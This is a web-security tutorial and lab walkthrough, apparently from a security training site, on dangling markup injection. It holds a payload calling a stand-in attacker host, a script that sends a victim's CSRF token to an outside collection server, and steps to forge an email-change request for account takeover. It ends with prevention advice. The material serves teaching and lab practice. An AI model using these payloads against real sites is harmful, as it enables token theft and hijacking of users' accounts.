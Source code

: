 # Dangling markup injection

Dangling markup injection is a technique for capturing data cross-domain in situations where a full cross-site scripting attack isn't possible.

Suppose an application embeds attacker-controllable data into its responses in an unsafe way:
```<input type="text" name="input" value="CONTROLLABLE DATA HERE```

Suppose also that the application does not filter or escape the > or " characters. An attacker can use the following syntax to break out of the quoted attribute value and the enclosing tag, and return to an HTML context:
```">```

In this situation, an attacker would naturally attempt to perform XSS. But suppose that a regular XSS attack is not possible, due to input filters, content security policy, or other obstacles. Here, it might still be possible to deliver a dangling markup injection attack using a payload like the following:
```"><img src='//attacker-website.com?```

This payload creates an img tag and defines the start of a src attribute containing a URL on the attacker's server. Note that the attacker's payload doesn't close the src attribute, which is left "dangling". 

### Reflected XSS protected by very strict CSP, with dangling markup attack

This lab using a strict CSP that blocks outgoing requests to external web sites.

To solve the lab, first perform a cross-site scripting attack that bypasses the CSP and exfiltrates a simulated victim user's CSRF token using Burp Collaborator. You then need to change the simulated user's email address to hacker@evil-user.net.

You must label your vector with the word "Click" in order to induce the simulated user to click it. For example:

```<a href="">Click me</a>```

**Solution:**
1. Log in to the lab using the account provided above.
2. Examine the change email function. Observe that there is an XSS vulnerability in the *email* parameter.
3. Go to the Collaborator tab.
4.Click "Copy to clipboard" to copy a unique Burp Collaborator payload to your clipboard.
5. Back in the lab, go to the exploit server and add the following code, replacing *YOUR-LAB-ID* and *YOUR-EXPLOIT-SERVER-ID* with your lab ID and exploit server ID respectively, and replacing *YOUR-COLLABORATOR-ID* with the payload that you just copied from Burp Collaborator.
    ```
    <script>
    if(window.name) {
        new Image().src='//BURP-COLLABORATOR-SUBDOMAIN?'+encodeURIComponent(window.name);
        } else {
            location = 'https://YOUR-LAB-ID.web-security-academy.net/my-account?email=%22%3E%3Ca%20href=%22https://YOUR-EXPLOIT-SERVER-ID.exploit-server.net/exploit%22%3EClick%20me%3C/a%3E%3Cbase%20target=%27';
    }
    </script>
    ```
6. Click "Store" and then "Deliver exploit to victim". When the user visits the website containing this malicious script, if they click on the "Click me" link while they are still logged in to the lab website, their browser will send a request containing their CSRF token to your malicious website. You can then steal this CSRF token using Burp Collaborator.
7. Go back to the Collaborator tab, and click "Poll now". If you don't see any interactions listed, wait a few seconds and try again. You should see an HTTP interaction that was initiated by the application. Select the HTTP interaction, go to the request tab, and copy the user's CSRF token.
8. With Burp's Intercept feature switched on, go back to the change email function of the lab and submit a request to change the email to any random address.
9. In Burp, go to the intercepted request and change the value of the email parameter to *hacker@evil-user.net*.
10. Right-click on the request and, from the context menu, select "Engagement tools" and then "Generate CSRF PoC". The popup shows both the request and the CSRF HTML that is generated by it. In the request, replace the CSRF token with the one that you stole from the victim earlier.
11. Click "Options" and make sure that the "Include auto-submit script" is activated.
12. Click "Regenerate" to update the CSRF HTML so that it contains the stolen token, then click "Copy HTML" to save it to your clipboard.
13. Drop the request and switch off the intercept feature.
14. Go back to the exploit server and paste the CSRF HTML into the body. You can overwrite the script that we entered earlier.
15. Click "Store" and "Deliver exploit to victim". The user's email will be changed to *hacker@evil-user.net*.

## How to prevent dangling markup attacks
You can prevent dangling markup attacks using the same general defenses for preventing cross-site scripting, by encoding data on output and validating input on arrival.

You can also mitigate some dangling markup attacks using content security policy (CSP). For example, you can prevent some (but not all) attacks, using a policy that prevent tags like img from loading external resources.

Note

The Chrome browser has decided to tackle dangling markup attacks by preventing tags like img from defining URLs containing raw characters such as angle brackets and newlines. This will prevent attacks since the data that would otherwise be captured will generally contain those raw characters, so the attack is blocked.